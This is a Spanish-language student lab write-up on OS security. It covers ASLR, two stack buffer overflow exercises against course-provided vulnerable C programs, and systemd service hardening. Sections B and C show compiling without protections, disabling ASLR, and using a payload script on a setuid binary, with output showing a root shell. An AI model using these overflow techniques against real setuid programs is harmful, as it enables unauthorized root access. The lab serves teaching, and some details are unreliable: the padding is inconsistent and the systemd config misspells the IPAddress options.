

# Sistemas Operativos - Práctica 5A [2025]: Seguridad

> Notas:
    1. Utilizar un kernel completo (no el compilado en las prácticas 1 y 2)
    2. Compilar el código C usando el Makefile provisto a fin de deshabilitar algunas medidas de seguridad del compilador y generar un código assembler más simple.
    3. Acceda al código necesario para la práctica en el repositorio de la materia.

## A - Introducción
1. Defina política y mecanismo.
- **Política**: Conjunto de reglas que determinan qué está permitido y qué no lo está en un sistema. Define **las decisiones de control de acceso** y uso de recursos. 
- **Mecanismo**: Es la **implementación técnica** que permite o impide ciertas acciones. Es **el medio por el cual se aplica la política**, como listas de control de acceso, privilegios o capacidades. 

2. Defina objeto, dominio y right.
- **Objeto**: Es cualquier recurso protegido del sistema, como archivos, impresoras, memoria, sockets, etc.

- **Dominio**: Es un contexto de ejecución con ciertos permisos, como un proceso o usuario. Define qué operaciones puede realizar sobre los objetos.

- **Right**: Es la autorización específica que un dominio tiene sobre un objeto, como leer, escribir, ejecutar, etc.

3. Defina POLA (Principle of least authority).
Es un principio de seguridad que establece que cada componente (proceso, usuario, programa) debe tener **solo los privilegios estrictamente necesarios** para realizar su tarea y nada más. Limita el acceso a lo mínimo necesario. 

4. ¿Qué valores definen el dominio en UNIX?
Un dominio está definido principalmente por los siguientes valores: 
- **UID (User ID)**: identifica al usuario propietario del proceso. 
- **GID (Group ID)**: identifica el grupo principal del usuario. 
- **Lista de grupos suplementarios**: otros grupos a los que pertenece el usuario. 
- **PID (Process ID)** y privilegios relacionados. 
- **Contexto de seguridad**: AppArmor, SELinux. 
Estos valores determinan qué archivos o recursos puede acceder un proceso y con qué derechos.   

5. ¿Qué es ASLR (Address Space Layout Randomization)? ¿Linux provee ASLR para los procesos de usuario? ¿Y para el kernel? [^1]
Es un mecanismo que aleatoriza las direcciones de memoria utilizadas por un proceso (incluye stack, heap, librerías compartidasd y código del ejecutable) para mitigar ataques de corrupción de memoria al hacer impredecibles las direcciones dificultando así los intentos de los atacantes de explotar vulnerabilidades conocidas. 
En los sistemas operativos Linux, ASLR es una característica de seguridad estándar tanto para los procesos de usuario como para el kernel. Cuando está activado, aleatoriza el diseño de memoria de programas ejecutables, bibliotecas y el kernel. 

6. ¿Cómo se activa/desactiva ASRL para todos los procesos de usuario en Linux?
ASLR se controla a través del archivo `proc/sys/kernel/randomize_va_space`en el cual acepta los siguientes valores: 
- 0 → Desactivado: Sin aleatorización.
- 1 → Parcialmente activo: Aleatoriza el espacio de stack, mmap, etc., pero no el ejecutable principal.
- 2 → Totalmente activo (por defecto en muchas distribuciones): Aleatoriza todo lo posible, incluyendo el ejecutable.

Entonces para activar ASLR completamente: `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space`

## B - Ejercicio introductorio: Buffer Overflow simple
El propósito de este ejercicio es que las y los estudiantes tengan una introducción simple a un stack buffer overflow a fin de poder abordar el siguiente ejercicio. Las y los estudiantes aprenderán a identificar la vulnerabilidad, analizar la disposición de la memoria y construir una entrada que aproveche la vulnerabilidad para obtener acceso no autorizado a una función privilegiada.

> Nota: Puede ser de ayuda ver el código assembler generado al compilar(`00-stack-overflow.s`) o utilizar `gdb` para depurar el programa pero no es obligatorio.

1. Compilar usando el makefile provisto el ejemplo `00-stack-overflow.c` provisto en el repositorio de la cátedra.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# make
cc -save-temps -g -fno-stack-protector -z execstack -no-pie -fcf-protection=none -O0    00-stack-overflow.c   -o 00-stack-overflow
00-stack-overflow.c: In function ‘login’:
00-stack-overflow.c:19:5: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   19 |     gets(password);             // Vulnerable function reads without bounds
      |     ^~~~
      |     fgets
/usr/bin/ld: 00-stack-overflow.o: en la función `login':
/home/so/practica4/codigo-para-practicas/practica5/00-stack-overflow.c:19: aviso: the `gets' function is dangerous and should not be used.
cc -save-temps -g -fno-stack-protector -z execstack -no-pie -fcf-protection=none -O0    01-stack-overflow-ret.c   -o 01-stack-overflow-ret
/usr/bin/ld: 01-stack-overflow-ret.o: en la función `login':
/home/so/practica4/codigo-para-practicas/practica5/01-stack-overflow-ret.c:33: aviso: the `gets' function is dangerous and should not be used.
```

- Resultado del binario: 
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004011ee <+0>:     push   %rbp
   0x00000000004011ef <+1>:     mov    %rsp,%rbp
   0x00000000004011f2 <+4>:     mov    $0x0,%eax
   0x00000000004011f7 <+9>:     call   0x40116c <login>
   0x00000000004011fc <+14>:    test   %eax,%eax
   0x00000000004011fe <+16>:    je     0x40120c <main+30>
   0x0000000000401200 <+18>:    mov    $0x0,%eax
   0x0000000000401205 <+23>:    call   0x401156 <privileged_fn>
   0x000000000040120a <+28>:    jmp    0x40121b <main+45>
   0x000000000040120c <+30>:    lea    0xe62(%rip),%rax        # 0x402075
   0x0000000000401213 <+37>:    mov    %rax,%rdi
   0x0000000000401216 <+40>:    call   0x401030 <puts@plt>
   0x000000000040121b <+45>:    mov    $0x0,%eax
   0x0000000000401220 <+50>:    pop    %rbp
   0x0000000000401221 <+51>:    ret
End of assembler dump.
```

2. Ejecutar el programa y observar las direcciones de las variables access y password, así como la distancia entre ellas.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./00-stack-overflow
access pointer: 0x7ffd53cbbc8f, password pointer: 0x7ffd53cbbc70, distance: 31
Write password: 
```
3. Probar el programa con una password cualquiera y con “big secret” para verificar que funciona correctamente.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./00-stack-overflow
access pointer: 0x7fff9f2d087f, password pointer: 0x7fff9f2d0860, distance: 31
Write password: Napoleon
Access denied
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./00-stack-overflow
access pointer: 0x7ffc43d422ef, password pointer: 0x7ffc43d422d0, distance: 31
Write password: big secret
Now you know the secret
```

4. Volver a ejecutar pero ingresar una password lo suficientemente larga para sobreescribir `access`. Usar `distance` como referencia para establecer la longitud de la password.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./00-stack-overflow
access pointer: 0x7fff5ac887ef, password pointer: 0x7fff5ac887d0, distance: 31
Write password: Duis pretium gravida erat curae.
Now you know the secret
```
5. Después de realizar la explotación, reflexiona sobre las siguientes preguntas:
a. ¿Por qué el uso de `gets()` es peligroso?
    Es peligroso porque no verifica la longitud de la entrada del usuario, copia todo lo que el usuario escribe directamente al búffer en memoria y si se escribe más de lo que el buffer puede contener, se sobreescriben variables contiguas en la pila.  
b. ¿Cómo se puede prevenir este tipo de vulnerabilidad?
    No usar `gets()` xd. Es conveniente usar funcionas seguras como `fgets(buffer, siize, stdin)` o `scanf("%Ns", buffer)` con la longitud especificada. 
c. ¿Qué medidas de seguridad ofrecen los compiladores modernos para evitar estas vulnerabilidades?
    Implementan:
    - Stack canaries: Insertan valores especiales entre las variables locales y la dirección de retorno. Si se detecta que ese valor fue alterado (por overflow), el programa se aborta.
    - ASLR: Aleatoriza la ubicación del stack, heap, y bibliotecas.
    - NX / DEP (Non-executable stack / Data Execution Prevention): Impide la ejecución de código en regiones de memoria como el stack.


## C - Ejercicio: Buffer Overflow reemplazando dirección de retorno
El objetivo de este ejercicio es que las y los estudiantes comprendan cómo una vulnerabilidad de desbordamiento de búfer puede ser explotada para alterar la dirección de retorno de una función, redirigiendo la ejecución del programa a una función privilegiada. Además, se explorará el mecanismo de seguridad ASLR y cómo desactivarlo temporalmente para facilitar la explotación.

> Nota: Puede ser de ayuda ver el código assembler generado al compilar (`01-stack-overflow-ret.s`) o utilizar `gdb` para depurar el programa pero no es obligatorio.

1. Compilar usando el makefile provisto el ejemplo `01-stack-overflow-ret.c`provisto en el repositorio de la cátedra.
2. Configurar `setuid` en el programa para que al ejecutarlo, se ejecute como usuario root.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# chmod u+s 01-stack-overflow-ret
root@so:/home/so/practica4/codigo-para-practicas/practica5# ls -l
total 220
#...
-rwsr-xr-x 1 root root 18408 may 30 22:14 01-stack-overflow-ret
#...
```

3. Verificar si tiene ASLR activado en el sistema. Si no está, actívelo.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# cat /proc/sys/kernel/randomize_va_space
2
```
4. Ejecute `01-stack-overflow-ret` al menos 2 veces para verificar que la dirección de memoria de `privileged_fn()` cambia.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# gcc -fPIE -pie -o 01-stack-overflow-ret 01-stack-overflow-ret.c
/usr/bin/ld: /tmp/ccPy7HG9.o: en la función `login':
01-stack-overflow-ret.c:(.text+0x11a): aviso: the `gets' function is dangerous and should not be used.
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./01-stack-overflow-ret
privileged_fn: 0x556846c2e1c9
Write password: s   
Access denied
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./01-stack-overflow-ret
privileged_fn: 0x55d42babc1c9
Write password: o       
Access denied
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./01-stack-overflow-ret
privileged_fn: 0x55bfe5d101c9
```
> Tuve que cambiar el tipo de compilación del programa para que se refleje el cambio de ASLR ya que este solo afecta a los binarios compilados como Position Independent Executable (PIE).

5. Apague ASLR y repita el punto 3 para verificar que esta vez el proceso siempre
retorna la misma dirección de memoria para `privileged_fn()`.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./01-stack-overflow-ret
privileged_fn: 0x5555555551c9
Write password: o   
Access denied
root@so:/home/so/practica4/codigo-para-practicas/practica5# ./01-stack-overflow-ret
privileged_fn: 0x5555555551c9
```

6. Suponiendo que el compilador no agregó ningún padding en el stack tenemos los
siguientes datos:
a. El stack crece hacia abajo.
b. Si estamos compilando en x86_64 los punteros ocupan 8 bytes.
c. x86_64 es little endian.
d. Primero se apiló la dirección de retorno (una dirección dentro de la función
`main()`). Ocupa 8 bytes.
e. Luego se apiló la vieja base de la pila (rbp). Ocupa 8 bytes.
f. password ocupa 16 bytes.
Calcule cuántos bytes de relleno necesita para pisar la dirección de retorno.

password: 16 bytes

rbp: 8 bytes

Dirección de retorno: queremos sobrescribir esta, por lo tanto tenemos que "atravesar" password y rbp. Entonces 24 bytes para llegar al inicio de la dirección de retorno y 8 bytes más para sobrescribir completamente la dirección de retorno con una nueva dirección. 


7. Ejecute el script `payload_pointer.py` para generar el payload. La ayuda se puede ver con: `python payload_pointer.py --help`

```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py 
usage: payload_pointer.py [-h] --padding PADDING --pointer POINTER [--pointer-size {4,8}]
                          [--endianness {little,big}] [--program PROGRAM]
payload_pointer.py: error: the following arguments are required: --padding, --pointer
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py --padding 32 --pointer 0x5555555551c9
0123456789abcdefghijklmnopqrstuv�QUUUU
```

8. Pruebe el payload redirigiendo la salida del script a `01-stack-overflow-ret` usando un pipe.
```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py --padding 24 --pointer 0x5555555551c9 | ./01-stack-overflow-ret
privileged_fn: 0x5555555551c9
Write password: uid = 0, euid = 0
You are now root
```

9. Para poder interactuar con el shell invoque el programa usando el argumento `--program` del script `payload_pointer`.
Por ejemplo: `python payload_pointer.py --padding <padding> --pointer <pointer> --program ./01-stack-overflow-ret`

```bash
root@so:/home/so/practica4/codigo-para-practicas/practica5# python3 payload_pointer.py --padding 24 --pointer 0x5555555551c9 --endianness little --program ./01-stack-overflow-ret
You will not see the prompt but try some commands like ls, id, pwd, etc.
whoami
root
id
uid=0(root) gid=0(root) grupos=0(root)
```

11. Contestar: 
a. ¿Qué efecto tiene setear el bit `setuid` en un programa si el propietario del archivo es root? ¿Qué efecto tiene si el usuario es por ejemplo `nobody`?
Cuando un usuario ejecuta ese programa, el proceso se ejecuta con UID 0 (root), sin importar qué usuario lo ejecutó. Esto se utiliza para permitir que los usuarios realicen tareas privilegiadas a través de binarios controlados (como que cada usuario pueda cambiar su propia contraseña).
Si el propietario es `nobody` el programa se ejecutará con los privilegios del usuario propietario del archivo. 
> El bit setuid hace que el proceso se ejecute con el UID del dueño del binario, no del que lo ejecuta. 

b. Compare el resultado del siguiente comando con la dirección de memoria de `privileged_fn()`. ¿Qué puede notar respecto a los octetos? ¿A qué se debe esto? 
```bash
python payload_pointer.py --padding <padding> --pointer <pointer> | hd
```

c. ¿Cómo ASLR ayuda a evitar este tipo de ataques en un escenario real donde el programa no imprime en pantalla el puntero de la función objetivo?
ASLR hace que las direcciones de memoria sean diferentes cada vez que se ejecuta el programa por lo tanto el atacante no puede saber con certeza a qué dirección redirigir la ejecución. 

d. ¿Cómo podría evitar este tipo de ataques en un módulo del kernel de Linux? ¿Qué mecanismo debería estar habilitado?
- KASLR (Kernel ASLR): Randomiza la base de carga del kernel, haciendo impredecibles las direcciones de funciones del kernel.
- RO/NX y RELRO: Asegura que ciertas secciones del kernel (y los módulos) sean sólo lectura o no ejecutables.

## D - Ejercicio: SystemD
> Objetivo: Aprender algunas restricciones de seguridad que se pueden aplicar a un servicio en SystemD.
    ● https://www.redhat.com/en/blog/cgroups-part-four
    ● https://www.redhat.com/en/blog/mastering-systemd

1. Investigue los comandos[^2]:
a. `systemctl enable`: Habilita un servicio para que se inicie automáticamente al arrancar el sistema.
b. `systemctl disable`: Deshabilita un servicio para que no se inicie automáticamente al arrancar el sistema.
c. `systemctl daemon-reload`: hace que systemd lea nuevamente todos los archivos de configuración sin reiniciar el sistema.
d. `systemctl start`: Inicia un servicio inmediatamente, sin importar si está habilitado o no para el inicio automático.
e. `systemctl stop`: Detiene un servicio que esté corriendo en este momento.
f. `systemctl status`: Muestra el estado actual de un servicio: si está activo, habilitado, cuántos procesos tiene, logs recientes, etc.
g.`systemd-cgls`: Muestra la jerarquía de los grupos de control (cgroups) activos en el sistema
h. `journalctl -u [unit]`: Muestra los logs del sistema filtrados por unidad (unit) de systemd, como un servicio.

2. Investigue las siguientes opciones que se pueden configurar en una unit service de systemd:
a. IPAddressDeny e IPAddressAllow
<table><thead>
  <tr>
    <th colspan="2">Controlan el acceso a la red para el servicio</th>
  </tr></thead>
<tbody>
  <tr>
    <td>IPAdressDeny=</td>
    <td>Lista de direcciones IP o rangos a los que se niega el acceso desde el servicio.</td>
  </tr>
  <tr>
    <td>IPAddressAllow=</td>
    <td>Lista de direcciones IP o rangos a los que se permite el acceso (las demás son bloqueadas si se usa).</td>
  </tr>
</tbody>
</table>

b. User y Group
<table><thead>
  <tr>
    <th colspan="2">Especifican el usuario y grupo bajo los cuales se ejecutará el servicio. Permite que un servicio se ejecute con privilegios limitados en lugar de root. </th>
  </tr></thead>
<tbody>
  <tr>
    <td>User</td>
    <td>Lista de usuarios con los que se ejecutará el servicio</td>
  </tr>
  <tr>
    <td>Group</td>
    <td>Lista de grupos con los que se ejecutará el servicio.</td>
  </tr>
</tbody>
</table>

c. ProtectHome
<table><thead>
  <tr>
    <th colspan="2">Controla el acceso a directorios de usuario</th>
  </tr></thead>
<tbody>
  <tr>
    <td>yes</td>
    <td>Monta /home, /root, /run/user como solo lectura para el servicio</td>
  </tr>
  <tr>
    <td>read-only</td>
    <td>Como `yes`</td>
  </tr>
  <tr>
    <td>tmpfs</td>
    <td>reemplaza los directorios por un sistema de archivos temporal vacío</td>
  </tr>
  <tr>
    <td>no</td>
    <td>sin protección</td>
  </tr>
</tbody>
</table>

d. PrivateTmp: Proporciona un espacio temporal separado y privado para `/tmp` y `/var/tmp` para el servicio. Impide que los servicios compartan el mismo directorio temporal, aumentando la seguridad.

e. ProtectProc: Limita el acceso al sistema de archivos `/proc` para el servicio.

f. MemoryAccounting, MemoryHigh y MemoryMax
<table><thead>
  <tr>
    <th colspan="2">Limitaciones respecto a la gestión de memoria del servicio</th>
  </tr></thead>
<tbody>
  <tr>
    <td>MemoryAccounting=</td>
    <td>Habilita el seguimiento y control del uso de memoria del servicio.<br></td>
  </tr>
  <tr>
    <td>MemoryHigh</td>
    <td>Define un límite "suave" de memoria que el servicio puede usar antes de que systemd intente reducir su uso.<br></td>
  </tr>
  <tr>
    <td>MemoryMax</td>
    <td>Límite "duro" de memoria; si se supera, el proceso será detenido o restringido severamente.<br></td>
  </tr>
</tbody>
</table>

3. Tenga en cuenta para los siguientes puntos: 
a. La configuración del servicio se instala en `/etc/systemd/system/insecure_service.service`
b. Cada vez que modifique la configuración será necesario recargar el demonio de systemd y recargar el servicio:
  i. `systemctl daemon-reload`
  ii. `systemctl restart insecure_service.service`

4. En el directorio `insecure_service` del repositorio de la cátedra encontrará, el binario `insecure_service`, el archivo de configuración `insecure_service.service` y el script `install.sh`.
a. Instale el servicio usando el script `install.sh`.
b. Verifique que el servicio se está ejecutando con `systemctl status`.
```bash
redes@debian:~/archivos-comp/so/codigo-para-practicas-main-practica5-insecure_service/practica5/insecure_service$ systemctl status insecure_service.service
● insecure_service.service - Insecure service
     Loaded: loaded (/etc/systemd/system/insecure_service.service; enabled; ven>
     Active: active (running) since Sat 2025-05-31 20:04:54 -03; 46s ago
   Main PID: 3174 (insecure_servic)
      Tasks: 5 (limit: 2320)
     Memory: 2.4M
        CPU: 17ms
     CGroup: /system.slice/insecure_service.service
             └─3174 /opt/sistemasoperativos/insecure_service

```

c. Verifique con qué UID se ejecuta el servicio usando `ps aux | grep insecure_service`.
```bash
redes@debian:~/archivos-comp/so/codigo-para-practicas-main-practica5-insecure_service/practica5/insecure_service$ ps aux | grep insecure_service
root        3174  0.0  0.4 1232112 8188 ?        Ssl  20:04   0:00 /opt/sistemasoperativos/insecure_service
redes       3756  0.0  0.0   6312   648 pts/1    S+   20:13   0:00 grep insecure_service

```
UID:
```bash
redes@debian:~/archivos-comp/so/codigo-para-practicas-main-practica5-insecure_service/practica5/insecure_service$ id -u root
0

```
d. Abra `localhost:8080` en el navegador y explore los links provistos por este
servicio.


5. Configure el servicio para que se ejecute con usuario y grupo no privilegiados (en Debian y derivados se llaman nouser y nogroup). Verifique con qué UID se ejecuta el servicio usando `ps aux | grep insecure_service`.
```bash
redes@debian:~/archivos-comp/so/codigo-para-practicas-main-practica5-insecure_service/practica5/insecure_service$ ps aux | grep insecure_service
nouser      9018  0.5  0.4 1232368 8248 ?        Ssl  23:22   0:00 /opt/sistemasoperativos/insecure_service

```
UID:
```bash
redes@debian:~/archivos-comp/so/codigo-para-practicas-main-practica5-insecure_service/practica5/insecure_service$ id -u nouser
996
```
6. Limite las IPs que pueden acceder al servicio para denegar todo por defecto y permitir solo conexiones de localhost (`127.0.0.0/8`).
```bash
[Service]
Type=simple
Restart=Always
ExecStart=/opt/sistemasoperativos/insecure_service
User=nouser
Group=nogroup
IPAdressDeny=any
IPAdressAllow=127.0.0.0/8

```

7. Explore el directorio `/home` y el directorio `/tmp` usando el servicio y luego:
a. Reconfigurelo para que no pueda visualizar el contenido de /home y tenga
su propio /tmp privado.
b. Recargue el servicio y verifique que estas restricciones surgieron efecto.
8. Limite el acceso a información de otros procesos por parte del servicio.
9. Establezca un límite de 16M al uso de memoria del servicio e intente alocar más de
esa memoria en la sección “Memoria” usando el link “Aumentar Reserva de
Memoria”


[^1]: https://www.vpnunlimited.com/es/help/cybersecurity/aslr?srsltid=AfmBOoocqbR0mKuW5E88t2Q25UVSpv-KOdVrDlhHMdxkSWmsFGsBK8om
[^2]: https://www.redhat.com/en/blog/linux-systemctl-manage-services